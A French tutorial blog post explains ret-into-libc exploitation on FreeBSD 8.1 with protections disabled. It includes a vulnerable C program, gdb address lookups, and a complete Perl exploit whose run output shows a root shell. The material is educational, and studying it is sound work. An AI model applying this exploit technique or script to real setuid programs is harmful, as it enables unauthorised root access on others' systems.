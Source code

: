 Title: Ret into Libc
Date: 2012-01-28
Category: App
Tags: ret into libc,overflow,exploitation
Author: Tosh
Summary: Return into libc : basics

Dans cet article, je vais décrire brièvement comment exploiter un programme en utilisant la méthode de ret into libc. Ceci a été testé uniquement sur FreeBSD 8.1, sans ASLR, et sans SSP d'activé.

Prenons le programme vulnérable suivant :

	:::c
	#include <string.h>
	#include <stdio.h>

	void foo(char *buff)
	{
    	char buffer[100];
    	strcpy(buffer, buff);
	}
	
	int main(int argc, char **argv)
	{
    	if(argc != 2)
    	{
        	printf("Usage : %s \n", argv[0]);
        	return 0;
    	}
    	foo(argv[1]);
    	return 0;
	}

Nous avons donc un stack overflow dans la fonction foo. Nous savons que nous écrasons EBP après 100 caractères copiés, et EIP après 104 caractères.

Pour être sûr, testons :

	:::console
	(gdb) r `perl -e 'print "A"x100 . "BBBB" . "CCCC";'`
	Program received signal SIGSEGV, Segmentation fault.
	0x43434343 in ?? ()
	(gdb) i r ebp eip
	ebp            0x42424242     0x42424242
	eip            0x43434343     0x43434343

Nous avons donc bien écrasé EBP avec les 'B' et EIP avec les 'C'. Le principe du ret into libc, est qu'au lieu de jumper sur un shellcode en STACK ou présent dans une variable d'environnement, nous jumpons sur une fonction de la bibliothèque C.

Le plus simple, étant de sauter sur la fonction system, nous pourrons alors exécuter la commande de notre choix. Pour ce faire, il faudra écraser EIP, avec l'addresse de la fonction system située dans le programme vulnérable, en lui transmettant l'addresse où sera situé notre chaine à exécuter.

En connaissant un peu comment fonctionne les appels de fonctions en C, nous savons que system() ira chercher l'addresse de la chaine 4 octets plus haut sur la pile au moment de l'appel, le sommet de la pile étant EIP empilé par l'instruction CALL.

Une manière propre de faire, étant de placer l'addresse de exit entre l'addresse de system() (Qui écrase EIP), et l'addresse de notre commande. Ainsi, le programme fermera proprement au retour de la fonction system. (Car system jumpera sur l'adresse située sur le sommet de la pile, pensant qu'elle a été appellée grâce à l'instruction CALL).

Notre stack ressemblera donc à ceci :

    :::console
	[     BUFFER     ]
	[     BUFFER     ]
	[      ...       ]
	[     BUFFER     ]
	[ Adresse system ]
	[  Adresse exit  ]
	[Adresse commande]
	[   Commande     ]
	[   Commande     ]
	[   Commande     ]

Pourquoi mettre la chaîne de l'argument de system APRÈS les adresses, et pas dans le buffer ? Car cette chaîne a besoin du caractère final '\0', hors si on le met au début, strcpy arrêtera la copie, et nous ne pourrons pas exploiter notre programme.

Le risque, étant d'écraser des données utiles à l'exploitation. Récupérons les adresses de system et exit :

	:::console
	[tosh@sys-tosh /usr/home/tosh/Desktop]$ gdb vuln
	GNU gdb 6.1.1 [FreeBSD]
	Copyright 2004 Free Software Foundation, Inc.
	GDB is free software, covered by the GNU General Public License, and you are
	welcome to change it and/or distribute copies of it under certain conditions.
	Type "show copying" to see the conditions.
	There is absolutely no warranty for GDB.  Type "show warranty" for details.
	This GDB was configured as "i386-marcel-freebsd"...(no debugging symbols found)...
	(gdb) b main
	Breakpoint 1 at 0x8048470
	(gdb) r
	Breakpoint 1, 0x08048470 in main ()
	(gdb) x exit
	0x28101920 :  0x53e58955
	(gdb) x system
	0x280ad870 :  0x0001b855

Nous avons donc :

	:::console
	system : 0x280ad870
	exit   : 0x28101920

Le plus dur, reste de trouver l'adresse de la chaine.

Exécutons le programme, et tentons de trouver le début de la chaîne :

	:::console
	(gdb) r `perl -e 'print "A"x108 . "BBBB";'`
	Program received signal SIGSEGV, Segmentation fault.
	0x41414141 in ?? ()
	(gdb) i r $esp
	esp            0xbfbfe9c0     0xbfbfe9c0
	(gdb) x/s $esp
	0xbfbfe9c0:    "BBBB"

Nous avons notre chaîne ! Avec le shéma de la stack précédente, nous savons que notre chaine sera située 8 octets plus loin dans la stack, soit a l'adresse 0xbfbfe9c8

Nous pouvons donc écrire notre exploit :

	:::perl
	#!/usr/bin/perl
	use strict;

	my $system_addr = "\x70\xd8\x0a\x28";
	my $exit_addr = "\x20\x19\x10\x28";
	my $cmd_addr = "\xc8\xe9\xbf\xbf";
	my $cmd = "/bin/sh";

	my $buff = ("A"x104) . ($system_addr). $exit_addr. $cmd_addr.$cmd;

	print "[*] Inj3ct code...\n";

	exec("./vuln", $buff) || die("Can't exec file\n");

Comme vous le savez, sur un système LITTLE_ENDIAN, il faut écrire les adresses "à l'envers", les octets de poids faibles étant à gauche, et ceux de poids fort à droite.

Lançons l'exploit :

	:::console
	[tosh@sys-tosh /usr/home/tosh/Desktop]$ perl test.pl
	[*] Inj3ct code...
	# id
	uid=1001(tosh) gid=1001(tosh) euid=0(root) groups=1001(tosh),0(wheel)
	#

Et voilà.
